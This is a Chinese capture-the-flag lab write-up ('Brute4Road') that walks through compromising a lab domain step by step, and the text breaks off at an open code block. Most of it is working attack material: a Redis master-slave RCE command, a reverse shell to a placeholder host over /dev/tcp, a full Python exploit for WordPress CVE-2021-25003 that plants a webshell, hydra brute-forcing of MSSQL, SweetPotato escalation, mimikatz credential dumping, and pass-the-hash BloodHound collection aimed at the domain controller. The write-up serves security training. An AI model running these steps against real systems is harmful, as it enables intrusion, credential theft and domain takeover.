# 春秋云境-Brute4Road

## fscan

默认扫描有点问题， 加参数 `-nobr -nopoc`

```py
fscan -h 39.99.253.126 -p 1-65535 -nobr -nopoc
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan 2.2.0 (bf036fd 2026-07-10T05:57:56Z)

[*] 服务插件: smtp, smb, ms17010, nfs, zookeeper ... 等36个
[*] 参数自适应: Timeout=1000ms, ModuleThread=5, Retry=2, ICMPRate=0.05, PocNum=5
[*] 39.99.253.126:21               ftp      [Product:vsftpd ||Version:3.0.2] Banner:(220 (vsFTPd 3.0.2))
[*] 39.99.253.126:22               ssh      [Product:OpenSSH ||Version:7.4] Banner:(SSH-2.0-OpenSSH_7.4)
[+] FTP 39.99.253.126:21 FTP
[+] SSH服务识别成功: 39.99.253.126:22 - SSH 2.0 (OpenSSH_7.4)
[*] 39.99.253.126:6379             redis    [Product:Redis key-value store ||Version:5.0.12] Banner:($3274 # Server redis_version:5.0.12 redis_git_sha1:00000000 redis_git_dirty:0 re...)
[*] http://39.99.253.126           http     [Product:nginx ||Version:1.20.1] Banner:(HTTP/1.1 200 OK Server: nginx/1.20.1 Date: Sun, 26 Jul 2026 04:52:45 GMT Content...)
[+] Redis服务识别成功: 39.99.253.126:6379 - Redis服务 (PONG响应)
[+] http://39.99.253.126           code:200 len:4833  title:Welcome to CentOS    server:nginx/1.20.1 [nginx centos默认页面 nginx/1.20.1]
```

‍

需要用公网服务器运行

https://github.com/n0b0dyCN/redis-rogue-server

> 在内网中很容易遇见Redis未授权漏洞
>
> redis 版本是 5.0.12，虽然版本大于5.0.5（有可能扫出来是错的），分析后发现应该是打 Redis 主从复制RCE
>
> 注：redis主从RCE打多了会出现redis瘫痪的情况，所以不到万不得已，尽量不要打主从

‍

```py
python3 redis-rogue-server.py --rhost 39.99.253.126 --lhost VPS --rport 6379 --lport 1237
```

‍



‍

利用 这个命令执行 再弹个 shell 然后tty

```py
sh -i >& /dev/tcp/vps/5555 0>&1
python -c 'import pty; pty.spawn("/bin/bash")'
```

‍

## base64-SUID

```py
[<<] find / -perm -u=s -type f 2>/dev/null
[>>] /usr/sbin/pam_timestamp_check
[>>] /usr/sbin/usernetctl
[>>] /usr/sbin/unix_chkpwd
[>>] /usr/bin/at
[>>] /usr/bin/chfn
[>>] /usr/bin/gpasswd
[>>] /usr/bin/passwd
[>>] /usr/bin/chage
[>>] /usr/bin/base64
[>>] /usr/bin/umount
[>>] /usr/bin/su
[>>] /usr/bin/chsh
[>>] /usr/bin/sudo
[>>] /usr/bin/crontab
[>>] /usr/bin/newgrp
[>>] /usr/bin/mount
[>>] /usr/bin/pkexec
[>>] /usr/libexec/dbus-1/dbus-daemon-launch-helper
[>>] /usr/lib/polkit-1/polkit-agent-helper-1
```

‍



‍

## flag01

```py
 ██████                    ██              ██  ███████                           ██
░█░░░░██                  ░██             █░█ ░██░░░░██                         ░██
░█   ░██  ██████ ██   ██ ██████  █████   █ ░█ ░██   ░██   ██████   ██████       ░██
░██████  ░░██░░█░██  ░██░░░██░  ██░░░██ ██████░███████   ██░░░░██ ░░░░░░██   ██████
░█░░░░ ██ ░██ ░ ░██  ░██  ░██  ░███████░░░░░█ ░██░░░██  ░██   ░██  ███████  ██░░░██
░█    ░██ ░██   ░██  ░██  ░██  ░██░░░░     ░█ ░██  ░░██ ░██   ░██ ██░░░░██ ░██  ░██
░███████ ░███   ░░██████  ░░██ ░░██████    ░█ ░██   ░░██░░██████ ░░████████░░██████
░░░░░░░  ░░░     ░░░░░░    ░░   ░░░░░░     ░  ░░     ░░  ░░░░░░   ░░░░░░░░  ░░░░░░ 


flag01: flag{05c74201-40e9-4d33-92bc-003176e6f28e}

Congratulations! ! !
Guess where is the second flag?

```

‍

## 内网-fscan

```py
 ./fscan -h 172.22.2.7/24
./fscan -h 172.22.2.7/24
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan 2.2.0 (bf036fd 2026-07-10T05:57:56Z)

[*] 服务插件: neo4j, telnet, elasticsearch, dnstcp, modbus ... 等36个
[*] 切换到ping命令模式
[*] 172.22.2.3 存活 (协议: ICMP)
[*] 172.22.2.16 存活 (协议: ICMP)
[*] 172.22.2.18 存活 (协议: ICMP)
[*] 172.22.2.34 存活 (协议: ICMP)
[*] 172.22.2.7 存活 (协议: ICMP)
[*] ICMP响应率过低(2.0%)，启用TCP补充探测(249个主机)
[*] 参数自适应: Timeout=1000ms, ModuleThread=30, Retry=1, ICMPRate=0.50, PocNum=30
[*] 172.22.2.7:21                  ftp      [Product:vsftpd ||Version:3.0.2] Banner:(220 (vsFTPd 3.0.2))
[!] FTP 172.22.2.7:21 匿名访问 - anonymous:anonymous
[!]    [->] pub
[*] 172.22.2.18:22                 ssh      [Product:OpenSSH ||Version:8.2p1 Ubuntu 4ubuntu0.5] Banner:(SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.5)
[*] 172.22.2.7:22                  ssh      [Product:OpenSSH ||Version:7.4] Banner:(SSH-2.0-OpenSSH_7.4)
[*] http://172.22.2.16             http     [Product:Open Lighting Architecture daemon] Banner:(HTTP/1.1 404 Not Found Content-Type: text/html; charset=us-ascii Server: Microso...)
[*] 172.22.2.3:389                 ldap     [Product:Microsoft Windows Active Directory LDAP] Banner:(0 Q d H 0 @0 & currentTime1 20260726053057.0Z0 U subschemaSubentry1 < :CN=Aggreg...)
[*] http://172.22.2.3:139          http     [Product:Open Lighting Architecture daemon]
[-] 插件扫描错误 172.22.2.3:139 - 读取SMB Session Setup响应失败: EOF
[-] 插件扫描错误 172.22.2.3:139 - SMB协议探测失败: 读取SMBv2协商响应失败: 消息长度过大: 2197815297
[-] 插件扫描错误 172.22.2.3:139 - Get "http://172.22.2.3:139": net/http: HTTP/1.x transport connection broken: malformed HTTP response "\x83\x00\x00\x01\x8f"
[*] http://172.22.2.34:139         http     [Product:Open Lighting Architecture daemon]
[-] 插件扫描错误 172.22.2.34:139 - 读取SMB Session Setup响应失败: EOF
[-] 插件扫描错误 172.22.2.34:139 - SMB协议探测失败: 读取SMBv2协商响应失败: 消息长度过大: 2197815297
[*] http://172.22.2.16:139         http     [Product:Open Lighting Architecture daemon]
[-] 插件扫描错误 172.22.2.34:139 - Get "http://172.22.2.34:139": net/http: HTTP/1.x transport connection broken: malformed HTTP response "\x83\x00\x00\x01\x8f"
[-] 插件扫描错误 172.22.2.16:139 - 读取SMB Session Setup响应失败: EOF
[-] 插件扫描错误 172.22.2.16:139 - SMB协议探测失败: 读取SMBv2协商响应失败: 消息长度过大: 2197815297
[*] 172.22.2.3:445                 microsoft-ds [Product:Microsoft Windows SMB2] Banner:(SMB@ A hl | M H6,! [ kj U x `v + l0j <0: + 7 * H * H * H + 7 *0( & $not_defined_...)
[-] 插件扫描错误 172.22.2.16:139 - Get "http://172.22.2.16:139": net/http: HTTP/1.x transport connection broken: malformed HTTP response "\x83\x00\x00\x01\x8f"
[*] 172.22.2.16:445                microsoft-ds [Product:Microsoft Windows SMB2] Banner:(SMB@ A Ch L 6 % \ Y x `v + l0j <0: + 7 * H * H * H + 7 *0( & $not_defined_in_RFC...)
[+] SMBInfo 172.22.2.3:445 [Windows 10 (Build 14393)] DC SMBv1
[+] SMBInfo 172.22.2.16:445 [Windows 10 (Build 14393)] MSSQLSERVER SMBv1
[*] 172.22.2.16:1433               ms-sql-s [Product:Microsoft SQL Server 2008 ||Version:10.00.5500; SP3] Banner:(%)
[-] 插件扫描错误 172.22.2.3:445 - 目标不存在MS17-010漏洞
[-] 插件扫描错误 172.22.2.16:445 - 目标不存在MS17-010漏洞
[*] 172.22.2.3:88                  spark    [Product:Apache Spark]
[*] http://172.22.2.16             code:404 len:315   title:Not Found            server:Microsoft-HTTPAPI/2.0
[*] https://172.22.2.16:3389       ssl      Banner:(e M je }~( x FL}@ D{ p c d . ! ot n i %N ~z tx h| 9 0 0 8 R ^ J '2 V0 * H 0#1!0 ...)
[*] https://172.22.2.34:3389       ssl      Banner:(Q M je #Tz | ?7 s g m j f+ ` b. v m h c / 0 0 c @ uF- 0 * H 0 1 0 U CLIENT01.xia...)
[+] RDP 172.22.2.16:3389 [OS:Windows 10, Version 1607/Windows Server 2016, Version 1607, Build:Windows 10.0.14393, Hostname:MSSQLSERVER, DNSDomain:xiaorang.lab, FQDN:MSSQLSERVER.xiaorang.lab, NetBIOSDomain:XIAORANG]
[-] 插件扫描错误 172.22.2.16:3389 - Get "https://172.22.2.16:3389": remote error: tls: internal error
[*] 172.22.2.34:445                microsoft-ds [Product:Microsoft Windows SMB2] Banner:(SMB@ A $zL D AH i ` + ~0 z <0: + 7 * H * H * H + 7 NEGOEXTS ` p o CU B _k O jP U...)
[-] 插件扫描错误 172.22.2.34:445 - 目标可能不支持SMBv1
[*] https://172.22.2.3:3389        ssl      Banner:(S M je ]e Hw Pt + S . l <[ i2 a =@ #F] Va 9 0 0 V ' Ej? j 0 * H 0 1 0 U DC.xiaor...)
[*] http://172.22.2.7              http     [Product:nginx ||Version:1.20.1] Banner:(HTTP/1.1 200 OK Server: nginx/1.20.1 Date: Sun, 26 Jul 2026 05:30:58 GMT Content...)
[-] 插件扫描错误 172.22.2.34:3389 - Get "https://172.22.2.34:3389": remote error: tls: internal error
[+] RDP 172.22.2.34:3389 [OS:Windows 10, Version 1903, Build:Windows 10.0.18362, Hostname:CLIENT01, DNSDomain:xiaorang.lab, FQDN:CLIENT01.xiaorang.lab, NetBIOSDomain:XIAORANG]
[-] 插件扫描错误 172.22.2.3:3389 - Get "https://172.22.2.3:3389": remote error: tls: internal error
[+] SMBInfo 172.22.2.34:445 [Windows 10 (Build 18362)] CLIENT01 SMBv2
[+] RDP 172.22.2.3:3389 [OS:Windows 10, Version 1607/Windows Server 2016, Version 1607, Build:Windows 10.0.14393, Hostname:DC, DNSDomain:xiaorang.lab, FQDN:DC.xiaorang.lab, NetBIOSDomain:XIAORANG]
[!] SMB Ghost 172.22.2.34:445 CVE-2020-0796 漏洞存在
[-] 172.22.2.16:1433 mssql 未发现弱密码
[*] POC加载完成: 总共387个，成功387个，失败0个
[+] http://172.22.2.7              code:200 len:4833  title:Welcome to CentOS    server:nginx/1.20.1 [nginx centos默认页面 nginx/1.20.1]
[-] 172.22.2.3:389 ldap 未发现弱密码
[!] SMB 172.22.2.16:445 admin:
[-] 172.22.2.3:445 smb 未发现弱密码
[-] 172.22.2.34:445 smb 未发现弱密码
[-] 172.22.2.7:22 ssh 未发现弱密码
[*] http://172.22.2.18             http     [Product:Open Lighting Architecture daemon] Banner:(HTTP/1.1 400 Bad Request Date: Sun, 26 Jul 2026 05:30:59 GMT Server: Apache/2.4....)
[-] 172.22.2.18:22 ssh 未发现弱密码
[*] 172.22.2.3:3268                ldap     [Product:Microsoft Windows Active Directory LDAP] Banner:(0 Q d H 0 @0 & currentTime1 20260726053100.0Z0 U subschemaSubentry1 < :CN=Aggreg...)
[-] 172.22.2.3:3268 ldap 未发现弱密码
[+] http://172.22.2.18             code:301 len:0     title:又一个WordPress站点       server:Apache/2.4.41 (Ubuntu) [apache-http apache/2.4.41 wordpress php/2022]
[*] 172.22.2.18:445                microsoft-ds [Product:Microsoft Windows SMB2] Banner:(SMB@ A ubuntu-web02 < J `H + >0< 0 + 7 *0( & $not_defined_in_RFC4178@please_igno...)
[*] 172.22.2.3:53                  domain   [Product:Simple DNS Plus] Banner:(version bind)
[-] 插件扫描错误 172.22.2.18:445 - SMB协议探测失败: 读取SMBv1 Session Setup响应失败: EOF
[-] 插件扫描错误 172.22.2.18:445 - SMB会话建立失败
[*] 172.22.2.3:135                 msrpc    [Product:Microsoft Windows RPC] Banner:(@)
[+] NetInfo 172.22.2.3:135 [DC]
[+] NetInfo 172.22.2.3:135   -> 172.22.2.3
[*] 172.22.2.16:135                msrpc    [Product:Microsoft Windows RPC] Banner:(@)
[+] NetInfo 172.22.2.16:135 [MSSQLSERVER]
[+] NetInfo 172.22.2.16:135   -> 172.22.2.16
[*] 172.22.2.34:135                msrpc    [Product:Microsoft Windows RPC] Banner:(@)
[+] NetInfo 172.22.2.34:135 [CLIENT01]
[+] NetInfo 172.22.2.34:135   -> 172.22.2.34
[*] 172.22.2.18:139                microsoft-ds [Product:Microsoft Windows SMB2] Banner:(SMB@ A ubuntu-web02 7G J `H + >0< 0 + 7 *0( & $not_defined_in_RFC4178@please_ign...)
[-] 插件扫描错误 172.22.2.18:139 - 读取SMB Session Setup响应失败: EOF
[-] 插件扫描错误 172.22.2.18:139 - SMB协议探测失败: 读取SMBv1 Session Setup响应失败: EOF
[*] 172.22.2.7:6379
端口扫描中（900线程） ● 100.0% [================] (665/665) 46/s TCP:1519/1868
[完成] 扫描完成: 665/665 (耗时: 14.3s)
[*] 扫描完成，发现 26 个开放端口
[-] 资源耗尽错误 4 次，建议降低线程数(-t)或增加ulimit
[*] 存活主机数: 5
[-] 172.22.2.7:6379 redis 未发现弱密码
[-] 插件扫描错误 172.22.2.16:3389 - 认证失败
```

‍

## 主机信息

‍

```ps
172.22.2.7 入口
172.22.2.18  WordPress

172.22.2.16   MSSQLSERVER.xiaorang.lab
172.22.2.34   CLIENT01.xiaorang.lab
172.22.2.3    DC.xiaorang.lab
```

配置 hosts

‍

## 172.22.2.18-wordpress

后台没有弱口令

扫描插件

```py
proxychains4 -q wpscan --url http://172.22.2.18/  -e ap --no-update
```



，插件存在rce

```py
https://www.cnblogs.com/0x28/p/16562596.html
WordPress WPCargo Track CVE-2021-25003 RCE
```

```py
# CVE-2021-25003.py
import sys
import binascii
import requests

# This is a magic string that when treated as pixels and compressed using the png
# algorithm, will cause <?=$_GET[1]($_POST[2]);?> to be written to the png file
payload = '2f49cf97546f2c24152b216712546f112e29152b1967226b6f5f50'

def encode_character_code(c: int):
    return '{:08b}'.format(c).replace('0', 'x')

text = ''.join([encode_character_code(c) for c in binascii.unhexlify(payload)])[1:]

destination_url = 'http://172.22.2.18/'
cmd = 'ls'

# With 1/11 scale, '1's will be encoded as single white pixels, 'x's as single black pixels.
requests.get(
    f"{destination_url}wp-content/plugins/wpcargo/includes/barcode.php?text={text}&sizefactor=.090909090909&size=1&filepath=/var/www/html/webshell.php"
)

# We have uploaded a webshell - now let's use it to execute a command.
print(requests.post(
    f"{destination_url}webshell.php?1=system", data={"2": cmd}
).content.decode('ascii', 'ignore'))
```



### msql

从 wp-congfig.php 里面拿 mysql 数据库密码

```py
wpuser:WpuserEha8Fgj9

mysql -u wpuser -pWpuserEha8Fgj9
```

‍

```mylsq
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| f1aagggghere       |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpress          |
+--------------------+
6 rows in set (0.00 sec)

mysql> use f1aagggghere
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+--------------------------------+
| Tables_in_f1aagggghere         |
+--------------------------------+
| S0meth1ng_y0u_m1ght_1ntereSted |
| flag02                         |
+--------------------------------+
2 rows in set (0.00 sec)

```

## flag02

```py
mysql> select * from flag02;
+------+--------------------------------------------+
| id   | flag02                                     |
+------+--------------------------------------------+
|    1 | flag{c757e423-eb44-459c-9c63-7625009910d8} |
+------+--------------------------------------------+
1 row in set (0.00 sec)

mysql> 
```

‍

除了flag 之外 还有个信息,可能是密码字典.先存起来

‍

```py
mysql> select * from S0meth1ng_y0u_m1ght_1ntereSted;
+-----+-----------+
| id  | pAssw0rd  |
+-----+-----------+
|   1 |  xDR6icFo |
|   2 |  lg4u3WsB |
|   3 |  6PoGQ2OZ |
|   4 |  2aq5dPNU |
|   5 |  S3DUMegA |
|   6 |  w9eXGrxa |
|   7 |  uTUdicIR |
...
```

‍

‍

‍

## 172.22.2.16-MSSQLSERVER

尝试用 wordpress 站点里面的获取·的密码字典去爆破 mssql 数据库

```py
proxychains4 -q  hydra -l sa -P ./mysql_pwd.txt mssql://172.22.2.16 -vV -t 10
```

‍

```py
172.22.2.16
sa:ElGNkOiC
```

‍



xp_cmdshell 已经启用可以 命令执行

```py
impacket-mssqlclient 'sa:ElGNkOiC@172.22.2.16'
```



  

```py
net user
\\MSSQLSERVER 的用户帐户

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
MSSQLSERVER01            MSSQLSERVER02            MSSQLSERVER03            
MSSQLSERVER04            MSSQLSERVER05            MSSQLSERVER06            
MSSQLSERVER07            MSSQLSERVER08            MSSQLSERVER09            
MSSQLSERVER10            MSSQLSERVER11            MSSQLSERVER12            
MSSQLSERVER13            MSSQLSERVER14            MSSQLSERVER15            
MSSQLSERVER16            MSSQLSERVER17            MSSQLSERVER18            
MSSQLSERVER19            MSSQLSERVER20 
```

‍

```py
net user /domain
\\DC.xiaorang.lab 的用户帐户

-------------------------------------------------------------------------------
Administrator            Alice                    Charles                  
DefaultAccount           Guest                    krbtgt                   
Marcus                   Vincent                  William                  
命令成功完成。


```



‍

## SweetPotato提权

此时权限太低需要提权,




## flag03

```py
8""""8                           88     8"""8                    
8    8   eeeee  e   e eeeee eeee 88     8   8  eeeee eeeee eeeee 
8eeee8ee 8   8  8   8   8   8    88  88 8eee8e 8  88 8   8 8   8 
88     8 8eee8e 8e  8   8e  8eee 88ee88 88   8 8   8 8eee8 8e  8 
88     8 88   8 88  8   88  88       88 88   8 8   8 88  8 88  8 
88eeeee8 88   8 88ee8   88  88ee     88 88   8 8eee8 88  8 88ee8 


flag03: flag{4e07f622-4967-492f-9823-cceb60f06500}


```

‍

## mimikatz

上传 mimikatz

```py
C:\Users\test\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

- 先取 MSSQLSERVER\$ 机器账户的 hash/AES 密钥

```py
# mimikatz
privilege::debug
sekurlsa::ekeys          # 拿 aes256（更稳，避开 RC4 限制）
lsadump::secrets         # 或从 $MACHINE.ACC 拿 NTLM
```

‍

NTLM

```py

MSSQLSERVER$
3c1b3e9700d0402d4c2db8abed03b3c5
```

‍

## bloodhound

- 利用 域内机器 NTLM 哈希收集域信息

```py
# proxychains4 -q  bloodhound-ce-python -d xiaorang.lab -u 'MSSQLSERVER$' --hashes :3c1b3e9700d0402d4c2db8abed03b3c5 -ns 172.22.2.3 -dc DC.xiaorang.lab --auth-method ntlm  -c all --zip --dns-tcp
bloodhound-ce-python -d xiaorang.lab -u 'MSSQLSERVER$' \
  --hashes :3c1b3e9700d0402d4c2db8abed03b3c5 \
  -ns 172.22.2.3 \
  -dc DC.xiaorang.lab \
  --auth-method ntlm \
  -c all --zip -dns-tcp

```

或者上传 `SharpHound.exe`

```py
SharpHound.exe -c all --zip
```

‍

## DC



```py
MSSQLSERVER$ (你已控制)
      │  约束委派 + 协议转换 → cifs/ldap on DC
      ▼
以 Administrator 身份访问 DC 的 CIFS / LDAP
      │  PsExec / DCSync
      ▼
        DC 完全沦陷（域管）
```


- S4U 伪装 Administrator 申请 DC 的 CIFS 票据

```py
